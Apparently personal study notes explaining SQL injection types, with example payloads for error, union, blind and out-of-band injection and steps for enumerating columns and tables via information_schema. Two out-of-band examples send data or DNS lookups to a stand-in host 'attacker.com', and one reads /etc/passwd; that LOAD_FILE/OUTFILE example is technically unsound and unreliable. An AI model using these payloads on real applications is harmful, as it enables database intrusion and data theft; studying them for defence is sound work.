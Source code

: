 #  SQL Injection Types and Explanation

SQL Injection (SQLi) is a vulnerability that allows attackers to manipulate a web application's query to the database. It occurs when user input is improperly sanitized, allowing the attacker to inject malicious SQL code. There are several types of SQL injection techniques:

## Types of SQL Injection:

### 1. In-band SQL Injection:

- **Definition:** In-band SQL injection is the most common type of SQLi where the attacker uses the same communication channel to inject and retrieve data from the database.

- **Techniques:**

  - **Error-based SQLi:** The attacker injects malicious SQL code and relies on database error messages to reveal information about the structure of the database. These errors can leak valuable data.

    - **Example:**

      ` ' OR 1=1; -- `

      Injecting this into a vulnerable query like:

        SELECT * FROM users WHERE username = '' OR 1=1 -- ' AND password = '';

      This will return all records in the `users` table.

  - **Union-based SQLi:** The attacker uses the `UNION` operator to combine the results of the original query with the results of an injected query, allowing them to retrieve additional data.

    - **Example:**

      ` ' UNION SELECT username, password FROM users; -- `

      If injected into a vulnerable query like:

        SELECT id, name FROM products WHERE id = [input];

      The attacker can retrieve data from the `users` table instead of the `products` table.

  

### 2. Blind SQL Injection:

- **Definition:** In blind SQL injection, the attacker cannot directly see the result of the query but can infer it based on the application's behavior (e.g., if the page loads or an error occurs).

- **Techniques:**

  - **Boolean-based blind SQLi:** The attacker injects SQL statements that evaluate to true or false and observes how the website responds. Based on the response, the attacker can deduce information.

    - **Example:**

      ` ' AND 1=1; -- (True condition)`  

      ` ' AND 1=2; -- (False condition)`  

      By observing if the query returns data (or the page behaves differently), the attacker can infer whether the condition is true or false.

  - **Time-based blind SQLi:** The attacker uses SQL functions like `SLEEP()` or `BENCHMARK()` to delay the response from the database. If a delay occurs, the attacker knows the query executed successfully.

    - **Example:**

      ` ' OR IF(1=1, SLEEP(5), 0); -- `

      If the page takes longer to load, the attacker can confirm that the condition is true.

  

### 3. Out-of-Band SQL Injection:

- **Definition:** Out-of-band SQL injection occurs when the attacker cannot use the same communication channel to inject and retrieve data. Instead, they use a separate channel (like HTTP requests or DNS queries) to receive the results of the query.

- **Example:**

  - Using SQL functions like `LOAD_FILE()` or `xp_dirtree` to send data to a remote server controlled by the attacker.

  - **Example:**

    ` ' UNION SELECT LOAD_FILE('/etc/passwd') INTO OUTFILE 'http://attacker.com/log.txt'; -- `

    In this case, the result of the query is sent to an external server, providing the attacker with sensitive information without directly showing it on the vulnerable website.
## classification
- **First-Order SQL Injection:**
    
    - **Definition:** In a first-order SQL injection attack, the malicious payload is directly inserted into the application's database query.
    - **Execution:** The attacker typically injects SQL code through user inputs, such as form fields or URL parameters. When the application processes these inputs without proper validation or sanitization, the injected SQL code gets executed by the database.
    - **Example:** If a web form accepts user input for a username and constructs a SQL query like `SELECT * FROM users WHERE username = '<user_input>';`, an attacker could input `' OR 1=1 --` to manipulate the query to return all records from the `users` table.
- **Second-Order SQL Injection:**
    
    - **Definition:** Second-order SQL injection involves injecting malicious payloads that are stored within the application's database, rather than being directly inserted into a query.
    - **Execution:** The injected data is stored in the database first and then later retrieved and used in a query. When the application retrieves and uses this data in a query without proper validation or sanitization, it inadvertently executes the injected SQL code.
    - **Example:** An attacker might submit malicious input that gets stored in the database (e.g., during registration or profile updates). Later, when another user or administrator views that data, the application constructs a query using the stored, but now malicious, input.

## In-Band SQL Injection vs. Out-of-Band SQL Injection:

  

- **In-band SQL Injection:**

  - **Same channel for attack and data retrieval.**

  - Easier to execute since the attacker directly sees the results (error messages, database response).

  - Examples include **Error-based** and **Union-based** SQLi.

  

- **Out-of-band SQL Injection:**

  - **Different channel for attack and data retrieval.**

  - Often used when the application does not return results or give direct feedback.

  - Relies on methods like sending results to external servers using DNS queries, HTTP requests, etc.

  

### In-Band Example:

  

    SELECT * FROM users WHERE username = 'admin' AND password = 'admin' OR '1'='1';

The query becomes:

    SELECT * FROM users WHERE username = 'admin' AND password = 'admin' OR '1'='1';

The injected part `'1'='1'` always evaluates to `TRUE`, which returns all rows in the table.

  

### Out-of-Band Example:

  

    '; EXEC xp_cmdshell('nslookup attacker.com'); --

Here, the attacker is using SQL Server’s `xp_cmdshell` to execute a system command (like `nslookup`) that sends a DNS query to an external server (`attacker.com`). This allows the attacker to confirm the vulnerability without getting direct feedback from the web application.














## SQL syntax 
-` select * where  from table where user ='joe' limit 0,1  ;   --` limit is here to limit the numbers of the output 
- ![[Pasted image 20240728121425.png]]
- ![[Pasted image 20240728122041.png]]

## injection 
- union cannot work if  the query calls  different numbers of columns 
- so we check for the number of columns in the query by `order by ***`
- if the number you gave  is work increase until it didn't work so the last number worked is the correct number  
- and then u need to know what number is interpreted in the page 
- by using `jeremy 'union select 1,2,3 #`
- after checking for numbers of calls  then you should use this 
- ` jeremy 'union select 1,2,table_name from information_schema.tables where table_schema =database() ; #`
- you use a valid syntax and then u inject the payload 
- portswigger sql cheat sheet 

	==try to search for any thing injectable like cookies validation or any thing 

